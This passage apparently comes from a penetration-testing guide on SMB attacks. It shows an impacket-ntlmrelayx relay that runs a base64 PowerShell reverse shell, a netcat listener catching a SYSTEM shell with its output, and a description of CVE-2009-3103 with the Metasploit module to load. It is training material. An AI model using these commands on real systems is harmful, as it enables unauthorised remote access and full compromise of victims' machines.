 We can create a PowerShell reverse shell using [revshells](https://www.revshells.com/) and the `Powershell #3 (Base64)` payload:

{% code overflow="wrap" %}
```shell
$ impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e JAB...<SNIP>...CkA'
```
{% endcode %}

Once the victim authenticates to our server, we poison the response and make it execute our command to catch the revshell:

```shell
$ nc -lvnp 9001

listening on [any] 9001 ...
connect to [10.10.110.133] from (UNKNOWN) [10.10.110.146] 52471

PS C:\Windows\system32> whoami;hostname

nt authority\system
WIN11BOX
```

## Vulnerabilities

### **SMBv2 Negotiation**

Windows Vista (Gold, SP1, SP2), Windows Server 2008 (Gold, SP2), and Windows 7 Release Candidate are affected by a RCE vulnerability ([CVE-2009-3103](https://nvd.nist.gov/vuln/detail/cve-2009-3103)), aka **SMBv2 Negotiation Vulnerability,** in the SMBv2 protocol implementation within `srv2.sys`, the kernel-mode driver responsible for SMBv2 handling in certain Microsoft Windows versions. A flaw in the processing of the `Process ID High` header field in a `NEGOTIATE PROTOCOL REQUEST` packet allows an attacker to trigger an array index error by supplying an ampersand (`&`) character. This malformed input leads to an out-of-bounds memory dereference in kernel space.

When exploited, it can result in either a denial of service through a system crash (blue screen) or, under certain conditions, arbitrary code execution with kernel-level privileges. The attack is conducted over TCP port `445` and does not require authentication, making it highly dangerous when SMBv2 services are exposed to untrusted networks.

A [MSF module](https://www.rapid7.com/db/modules/exploit/windows/smb/ms09_050_smb2_negotiate_func_index/) exists for exploiting the vulnerability.

```bash
 msf > use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
```
